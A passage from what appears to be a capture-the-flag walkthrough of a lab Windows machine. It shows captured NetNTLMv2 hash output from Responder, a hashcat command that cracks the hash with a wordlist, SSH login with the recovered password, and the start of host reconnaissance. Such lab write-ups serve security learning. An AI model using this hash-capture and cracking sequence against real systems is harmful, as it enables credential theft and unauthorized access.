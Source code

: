 All that's left now is to transfer this file via the file upload functionality and wait for any NTLM hash exchanges that are captured in Responder.

After about a minute or two of waiting, you should see a successfully captured hash appear.

```
[+] Listening for events...                                                                                                   

[SMB] NTLMv2-SSP Client   : 10.10.115.42
[SMB] NTLMv2-SSP Username : MEDIA\enox
[SMB] NTLMv2-SSP Hash     : enox::MEDIA:6698cf0238d6cc81:A7112EF24883911141FD714144D4B6FB:010100000000000000F00E5716E9DA014E8B[...snip...]0000000000                                          
[*] Skipping previously captured hash for MEDIA\enox
[*] Skipping previously captured hash for MEDIA\enox
```

We'll crack this using hashcat along with its hash-identifier, which is 5600 for NetNTLM-v2 hashes.

```
└─$ hashcat -a 0 -m 5600 enox_hash.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting
......
310030002e0038002e0030002e003100370033000000000000000000:[...snip...]

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
```

As you can see, we were successfully able to crack the hash for the `enox` user and can now use it to enumerate the target machine.

Given that we now have credentials and there isn't any form of LDAP or Kerberos on this machine, let's just test a simple authentication attempt through SSH.

```
└─$ ssh enox@10.10.115.42
enox@10.10.115.42's password:
Microsoft Windows [Version 10.0.20348.1970]
(c) Microsoft Corporation. All rights reserved.

enox@MEDIA C:\Users\enox>
```

The first user flag is within the `enox` user's Desktop directory in their home folder.

# Host Reconnaissance

Now that we have shell access as a user on the machine, let's look around a bit. As I said before, there isn't any form of LDAP or Kerberos on this machine, so our privilege escalation should rely and be exploiting completely through the shell that we currently have access to.

```
PS C:\> ls

Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---        10/10/2023   6:32 AM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-r---         10/2/2023  10:26 AM                Users
d-----        10/10/2023   6:41 AM                Windows
d-----         10/2/2023  11:03 AM                xampp
```

